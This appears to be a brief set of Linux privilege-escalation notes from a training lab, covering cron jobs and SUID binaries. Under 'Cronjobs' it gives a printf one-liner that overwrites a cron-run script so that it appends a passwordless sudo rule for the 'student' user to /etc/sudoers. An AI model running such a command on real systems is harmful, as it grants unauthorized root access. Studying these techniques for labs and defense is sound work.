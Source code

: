 
<h4>Cronjobs</h4>

To specify where the path for the crontab is specified
```
grep -rnw /usr -e "/home/student/message"
```
If there's no text editor to edit your cronjob
```
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```



<h4>Exploiting SUID Binaries</h4>

When it is an executable, you can use strings to check what it does
```
strings welcome
```

